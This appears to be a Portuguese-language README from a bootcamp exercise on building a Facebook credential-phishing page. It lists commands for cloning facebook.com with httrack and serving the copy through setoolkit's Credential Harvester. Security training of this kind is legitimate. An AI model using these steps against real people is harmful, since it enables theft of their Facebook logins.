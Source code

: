 # digital-inovation-one_Facebook-Phishing
"Neste desafio de projeto, iremos criar um Phishing para capturar senhas de login do Facebook."

# Phishing para captura de senhas do Facebook

O método apresentado no modulo "Criação de um Phishing com o Kali Linux" não retornou nenhuma senha ou usuário portanto foi necessesário utilizar uma maneira alternativa com httrack

### Ferramentas

- Kali Linux
- setoolkit
- httrack
  
### Método alternativo

- Acesso root: ``` sudo su ```
- Baixando httrack: ```apt install httrack```
- Clonando a página: ```httrack https://www.facebook.com -O /home/kali/facebook ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Cloner Import ```
- ```Enter```
- Passando o caminho: ``` /home/kali/facebook/m.facebook.com/```
- Site clonado: ```m.facebook.com```
- Obtendo o endereço da máquina: ``` ifconfig ```
- Acessar utilizando ```ip.do.host:porta_host```

### Resutados

